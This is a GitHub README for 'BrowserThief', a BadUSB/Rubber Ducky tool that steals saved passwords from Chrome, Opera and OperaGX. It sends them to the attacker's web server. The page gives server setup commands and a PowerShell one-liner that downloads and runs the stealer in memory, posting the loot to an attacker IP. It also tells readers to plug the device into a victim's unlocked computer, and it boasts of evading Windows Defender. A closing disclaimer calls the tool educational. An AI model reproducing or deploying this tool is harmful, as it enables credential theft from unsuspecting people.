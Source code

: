 # BrowserThief
All in one Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. It currently extract passwords from **Opera/OperaGX/Chrome**, I will be adding support for more browsers like Firefox soon!
<br/><br/>
## Features
- The powershell script runs in-memory and avoids writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds
- Extracts Passwords from all Chrome Profiles, Opera and OperaGX
- Will be adding Firefox soon
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```


## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰


## PoC

### Victim POV
Just plug your bad usb and watch the magic
<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>
<br/>

### Attacker POV
<p align="center">
<img src="test/attacker.gif?raw=true" width="800">
</p>

<br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project
